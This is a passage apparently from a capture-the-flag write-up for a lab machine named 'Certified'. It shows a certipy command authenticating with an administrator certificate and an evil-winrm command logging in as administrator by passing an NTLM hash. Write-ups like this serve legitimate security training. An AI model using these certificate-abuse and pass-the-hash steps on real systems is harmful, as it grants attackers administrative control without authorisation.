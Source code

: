 ![](src/assets/certified/Certified_image_6.png)

```bash
certipy auth -pfx administrator.pfx -domain certified.htb
```
![](src/assets/certified/Certified_image_7.png)


Now we can connect with evil-winrm using administrator NTLM hash

```bash
evil-winrm -i 10.10.11.41 -u 'administrator'  -H '0d5b49608bbce1751f708748f67e2d34' 
```


and then get the administrator flag